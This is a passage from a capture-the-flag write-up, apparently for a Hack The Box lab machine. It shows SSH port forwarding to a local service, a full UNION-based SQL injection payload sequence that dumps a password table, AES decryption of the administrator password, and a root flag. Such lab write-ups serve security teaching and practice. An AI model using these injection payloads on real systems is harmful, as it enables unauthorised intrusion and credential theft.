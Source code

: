 Using "strings" on this binary we discovered a URL using port 1234, but this port i'ts only visible locally
We use ssh with the -L parameter to connect using port-forwarding
``` bash
Requesting decryption key from cloud...
Account: Administrator
http://passmanager.htb:1234/index.php
method=select&username=administrator&table=passwords

ssh development@10.10.10.228 -L 1234:127.0.0.1:1234

#on the website
http://127.0.0.1:1234/index.php?method=select&username=administrator&table=passwords
	selectarray(1) { [0]=> array(1) { ["aes_key"]=> string(16) "k19D193j.<19391(" } }
```

This site return a "aes" cipher and the site is vulnerable to sql injection
``` markdown

**http://127.0.0.1:1234/index.php?method=select&username=administrator'&table=passwords**
select  
Fatal error: Uncaught TypeError: mysqli_fetch_all(): Argument #1 ($result) must be of type 

**http://127.0.0.1:1234/index.php?method=select&username=administrator' order by 1-- -&table=passwords**

**http://127.0.0.1:1234/index.php?method=select&username=administrator' union select schema_name from information_schema.schemata-- -&table=passwords**

"information_schema" "bread"

**http://127.0.0.1:1234/index.php?method=select&username=administrator' union select table_name from information_schema.tables where table_schema="bread"-- -&table=passwords**
"passwords" 

**http://127.0.0.1:1234/index.php?method=select&username=administrator' union select column_name from information_schema.columns where table_schema="bread" and table_name="passwords"-- -&table=passwords**

"id" "account" "password"  "aes_key" 

**http://127.0.0.1:1234/index.php?method=select&username=administrator' union select group_concat(account,":",password) from bread.passwords-- -&table=passwords**

"Administrator:H2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw="
```

The sql injection returns the administrator password encrypted in base64 and other type of cipher,  using this with the previous "aes" cipher we can decrypt it using cyberchef
``` bash

cyberchef -> from base64 -> aes decrypt (utf8 + the cipher + input raw + IV 000000000000000000000...) 
->  p@ssw0rd!@#$9890./
```

We now have the administrator password, and we have successfully escalated privileges!
``` bash
administrator@BREADCRUMBS C:\Users\Administrator>whoami
breadcrumbs\administrator

administrator@BREADCRUMBS C:\Users\Administrator\Desktop>type root.txt
86764d598952f923a09f3f459518e87a
```


